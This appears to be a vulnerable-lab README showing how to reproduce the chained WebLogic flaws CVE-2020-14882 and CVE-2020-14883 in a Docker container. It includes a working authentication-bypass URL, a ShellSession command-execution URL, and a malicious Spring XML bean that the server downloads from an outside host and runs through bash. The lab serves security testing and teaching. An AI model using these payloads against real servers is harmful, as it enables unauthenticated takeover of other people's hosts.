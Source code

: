 # Weblogic Unauthentication Remote Command Execution (CVE-2020-14882, CVE-2020-14883)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - October 2020](https://www.oracle.com/security-alerts/cpuoct2020traditional.html), Oracle fixed two security vulnerabilities submitted by security researcher @Voidfyoo from Chaitin Tech, CVE-2020-14882 and CVE-2020-14883.

CVE-2020-14882 allows remote users to bypass the authentication in administrator console component, and CVE-2020-14883 allows authencated user to execute any command on administrator console component. Using a chain of these two vulnerabilities, unauthenticated remote attacker can execute arbitrary commands on the Oracle WebLogic server over HTTP and take complete control of the host.

References:

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker-compose up -d
```

After the startup is complete, visit `http://your-ip:7001/console` to view the administrator console login page.

## Exploit

Using this URL to bypass the authentication of Console component:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![](1.png)

At this moment, you don't have permission to upload a webshell:

![](2.png)

The second vulnerability, CVE-2020-14883, there are two ways to exploit, one is through `com.tangosol.coherence.mvel2.sh.ShellSession`, and the other is through `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`.

Visit the following URL to chain 2 vulnerabilities and execute commands from `com.tangosol.coherence.mvel2.sh.ShellSession`:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

`touch /tmp/success1` has been successfully executed inside the container:

![](3.png)

This method of exploit can only be used in Weblogic 12.2.1 and above, because 10.3.6 doesn't have the class `com.tangosol.coherence.mvel2.sh.ShellSession`.

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` is a more common exploit, which was first introduced in CVE-2019-2725 and is useable for any Weblogic versions.

To exploit the `FileSystemXmlApplicationContext`, you need to make a crafted XML file and serve it on a server that Weblogic can access, such as `http://example.com/rce.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Then through the following URL, Weblogic would load this XML and execute the commands in it:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![](4.png)

The shortcomings of this exploit is that, it requires the Weblogic server to be able to access the malicious XML.

